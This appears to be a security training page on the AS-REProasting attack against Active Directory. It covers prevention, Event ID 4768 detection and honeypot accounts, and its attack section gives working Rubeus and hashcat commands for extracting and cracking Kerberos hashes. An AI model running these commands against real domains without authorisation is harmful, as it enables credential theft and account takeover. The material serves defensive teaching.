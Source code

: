 ## Description

The **AS-REProasting** attack is similar to Kerberoasting. Attackers can obtain crackable hashes for user accounts with the **Do not require Kerberos preauthentication** property enabled. The success of this attack relies on cracking the user account password.

## Attack

1. **Extracting Crackable Hashes**: Using tools like Rubeus, hashes can be extracted for each user without Kerberos preauthentication:

    ```powershell
    PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt
    ```

    This action saves the hashes for accounts without preauthentication enabled to `asrep.txt`.

2. **Preparing the Hash for Cracking**: Modify the extracted hash by adding `23$` after `$krb5asrep$`:

    ```plaintext
    $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c6480335...
    ```

3. **Cracking Hash with hashcat**: Use hashcat with mode 18200, specifically for AS-REPRoastable hashes:

    ```bash
    sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
    ```

4. **Viewing the Result**: After cracking, view the result to obtain the cleartext password.

    ```bash
    cat asrepcrack.txt
    ```

## Prevention

This attack's success largely depends on the password strength of accounts with **Kerberos preauthentication** disabled.

- **Review and Limit Usage**: Only use the "no preauthentication" setting if absolutely necessary, and conduct quarterly reviews to ensure accounts don't inadvertently have this property.
- **Strong Password Policy**: Apply a separate policy requiring a minimum of 20 characters for users with this property.

## Detection

When a TGT is requested, Event ID 4768 is generated. While this event is common and heavily logged, correlation to specific IPs or VLANs can help differentiate valid login attempts from potential malicious requests.

## Honeypot

A honeypot user can be effective for detecting AS-REProasting attempts. Create an unused, privileged account with Kerberos preauthentication disabled. Ensure it meets these criteria:

1. **Old Account**: Use an old account with a password that hasn’t changed in years.
2. **Recent Login Activity**: Ensure logins occurred post-password change to avoid suspicion.
3. **Assigned Privileges**: The account should have privileges to be of interest to attackers.

Example honeypot setup:

- **User**: `svc-iam` with specific privileges and preauthentication disabled.

## Caution

Be strategic in setting up honeypots to avoid making the setup too obvious to attackers. Choose the best-suited detection methods for your environment.

---
